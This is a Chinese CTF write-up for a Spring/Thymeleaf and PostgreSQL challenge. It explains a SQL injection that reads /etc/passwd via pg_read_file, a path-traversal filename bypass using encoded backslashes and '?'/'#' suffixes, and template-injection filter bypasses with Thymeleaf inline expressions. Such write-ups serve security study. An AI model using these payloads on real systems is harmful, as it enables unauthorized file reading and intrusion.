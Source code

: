 ### 任意文件读写
进入后台可以看到路由`/post_message`
![](https://img-blog.csdnimg.cn/direct/2a1c53941c08483abbe8a343b5915750.png)

又是一个sql注入，不细说了，可以使用pg_ls_dir、pg_read_file读文件，又或者lo_from_bytea配合lo_export写文件
![](https://img-blog.csdnimg.cn/direct/266c70cd59444d6388d5ec7562a07471.png)

这里官方wp给出了另外一种函数：`ts_stat`，同样可以执行sql语句
![](https://img-blog.csdnimg.cn/direct/98bb7e9d2f6546728e3a623aeb47291e.png)

注意需要配合to_tsvector函数处理成tsvector数据类型：
```sql
SELECT to_tsvector('english', pg_read_file('/etc/passwd'));
```

## 模板注入
往后看到路由`/notify`
![](https://img-blog.csdnimg.cn/direct/9290429bb9cc4cb5b4374401a2abbf82.png)

如果传入的fname不包含`../`并且文件内容不包含<、>、org.apache、org.spring，则使用SpringTemplateEngine解析

### 文件名绕过
```
cleanPath:701, StringUtils (org.springframework.util)
toURL:399, ResourceUtils (org.springframework.util)
getResource:165, DefaultResourceLoader (org.springframework.core.io)
getResource:248, GenericApplicationContext (org.springframework.context.support)
notify:40, NotifyController (com.chatterbox.controller)
```
看到`org.springframework.util.StringUtils#cleanPath`处理path的地方
![](https://img-blog.csdnimg.cn/direct/f027f155444648f4a29888d08d2fbfd8.png)

会将`\`替换为`/`，然后通过`../`替换掉 non_exists 路径
![](https://img-blog.csdnimg.cn/direct/957368f99c5a44d495a7861c6c659994.png)

最后由于是`file:`协议，使用`#`或者`?`来绕过后缀限制
```
?fname=..%5cetc/passwd%3F
?fname=..%5cetc/passwd%23
```

### 标签绕过
由于过滤了<、>，我们无法使用标签
看到：[https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#expression-inlining](https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#expression-inlining)

可以使用中括号内联表达式，即`[[${2*2}]]`

官网wp还提供了一种方法：

看到：[https://github.com/thymeleaf/thymeleaf/blob/3.1-master/lib/thymeleaf-spring6/src/main/java/org/thymeleaf/spring6/util/SpringStandardExpressionUtils.java](https://github.com/thymeleaf/thymeleaf/blob/3.1-master/lib/thymeleaf-spring6/src/main/java/org/thymeleaf/spring6/util/SpringStandardExpressionUtils.java)
![](https://img-blog.csdnimg.cn/direct/a0b5f9affda049968e5a9b8723dabf50.png)
